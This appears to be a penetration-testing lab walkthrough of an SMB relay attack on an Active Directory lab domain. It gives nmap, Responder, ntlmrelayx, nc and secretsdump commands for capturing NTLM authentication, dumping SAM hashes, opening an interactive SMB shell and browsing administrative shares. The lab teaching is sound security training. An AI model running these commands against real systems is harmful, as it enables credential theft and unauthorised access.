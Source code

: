
First of all we need to run our nmap scan, to check for the host with **SMB** signing disabled

![](https://i.imgur.com/MlaVrME.jpg)

Now we can save  the host that have the prompt **"message signing enabled but not required"** into a **targets.txt** file

![](https://i.imgur.com/vNu7Yc1.png)

Now we can disable the **HTTP** and **SMB** protocol in the responder.conf file, located under `/etc/responder/Responder.conf`

![](https://i.imgur.com/7mRX0rr.png)

We can then startup `responder` with the syntax used previously in **LLMNR Poisoning** `sudo responder -i wlan0 -dwPv` (v for verbose)

![](https://i.imgur.com/TaJpooZ.png)

Now we can startup the `ntlmrelayx.py` tool wit these syntax `ntlmrelayx.py -tf targets.txt -smb2support` , if you don't have it, you can download it from [here](https://github.com/fortra/impacket/blob/impacket_0_9_19/examples/ntlmrelayx.py) and move it to `/usr/bin` 

> If you are still having problem with ntlmrelayx not working, you can download this [tool](https://github.com/Dewalt-arch/pimpmykali) officially made by the TCM members to fix things

![](https://i.imgur.com/Rdh5Zvu.jpg)

The next thing is for our target, to create an event (We are gonna be utilizing **THE-PUNISHER** VM) , remember the `\\ATACKER-IP`

![](https://dimitrios-tsarouchas.tech/assets/img/DNS-failure-Wrong-address.png)

**SAM hashes have been dumped**
![Local-SAM-hashes-have-been-dumped](https://dimitrios-tsarouchas.tech/assets/img/Local-SAM-hashes-have-been-dumped.png)_Local SAM hashes have been dumped_

The authentication succeeded because SMB signing is enabled but not required and because “dtsarouchas” is the Administrator on this computer. Therefore, the SAM hashes were able to be dumped. Now the attacker can copy the SAM hashes, try cracking them offline and move laterally or vertically.

***

Same as we did in the previous section, we can simply get an interactive SMB shell by just adding a flag to ntlmrelayx command

```
impacket-ntlmrelayx -tf targets -smb2support -i
```

-i will give the interactive shell. After running the command, you will see an output like below

![](https://www.hackingloops.com/wp-content/uploads/2023/01/6-2-1024x407.png)

It has successfully exploited and started interactive SMB client shell via TCP on the specified port.

To access the shell, you can simply use `nc` to connect to the host and port using the following command

```
nc 127.0.0.1 11000
```

This will give you the SMB shell as below

![](https://www.hackingloops.com/wp-content/uploads/2023/01/7-2.png)

From here, you can interact using the shell and access the files and folders., for example to see the content of these shares we can say

```shell
sec-fortress@kali#~$ use C$
sec-fortress@kali#~$ use ADMIN$
sec-fortress@kali#~$ use IPC$
```

Then we can do `ls`

![](https://i.imgur.com/Q2m4kx2.png)

## **Dumping Hashes with Secretsdump.py**

```powershell
# Dumping SAM hashes

$ secretsdump.py MARVEL.local/fcastle:Password1@192.168.0.132
```